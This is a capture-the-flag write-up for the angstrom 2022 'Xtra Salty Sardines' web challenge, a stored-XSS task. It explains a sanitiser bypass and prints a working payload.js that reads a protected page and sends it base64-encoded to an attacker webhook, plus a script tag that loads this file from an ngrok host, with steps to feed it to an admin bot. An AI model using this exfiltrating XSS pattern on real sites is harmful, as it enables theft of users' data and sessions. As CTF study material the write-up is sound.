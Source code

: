 # angstrom 2022 - Xtra Salty Sardines

* **Category:** web
* **Points:** 70

## Challenge

>Clam was intensely brainstorming new challenge ideas, when his stomach growled! He opened his favorite tin of salty sardines, took a bite out of them, and then got a revolutionary new challenge idea. What if he wrote a site with an extremely suggestive acronym?

## Solution
```python
vuln = "Xtra Salty Sardines"
print(f"Vuln: {vuln[0]}{vuln[5]}{vuln[11]}")
#Vuln: XSS
```
#### XSS Bypass
![image](https://user-images.githubusercontent.com/78451563/166805274-bb37ee0d-1452-474e-a256-719426e7e6da.png)
![image](https://user-images.githubusercontent.com/78451563/166806002-020feebe-1b22-4228-85bb-4209f71a4433.png)</br>
♡ Though it uses the replace function to sanatize the input, it will only act on the first character presented.</br>
♡ Therefore, we can enter our payload twice to bypass.</br>
#### Ngrok + Webhook
```javascript
//payload.js
var request = new XMLHttpRequest();
request.onload = sendBack;
request.open('GET','https://xtra-salty-sardines.web.actf.co/flag');
request.send();

function sendBack(){
        location = '<WEB HOOK URL>/result?result=' + btoa(this.responseText);
}
```
♡ We can host this payload using ngrok `ngrok http 80`</br>
♡ And in the script replace the `sendBack` location using a webhook from [webook.site](https://webhook.site)</br>
#### Payload
![image](https://user-images.githubusercontent.com/78451563/166808856-29dd8652-c9a4-4a73-b082-afd198f9f65a.png)</br>
![image](https://user-images.githubusercontent.com/78451563/166809657-af371a6d-1017-4bcf-b21f-532eb386e121.png)</br>
`<h1>"r4nd0m"</h1><script src="https://a479-80-3-68-53.ngrok.io/payload.js"></script>`</br>
♡ This bypassing payload source is to the `payload.js` hosted on our `ngrok` server</br>
♡ When sent our payload to `https://xtra-salty-sardines.web.actf.co/` we should create a directory with our payload inside e.g `/sardines/abcdefg`</br>
### Exploitation
![image](https://user-images.githubusercontent.com/78451563/166809982-08d011ad-0833-43c1-844d-a3570807b972.png)
![image](https://user-images.githubusercontent.com/78451563/166811614-60adf1ca-0e49-4f45-aed5-4508e32b87b3.png)
♡ Visit [Admin bot](https://admin-bot.actf.co/xtra-salty-sardines)</br>
♡ Send the link which has the XSS payload on</br>
♡ Visited webhooks and base64 decode the results
```
Flag: actf{those_sardines_are_yummy_yummy_in_my_tummy}
```

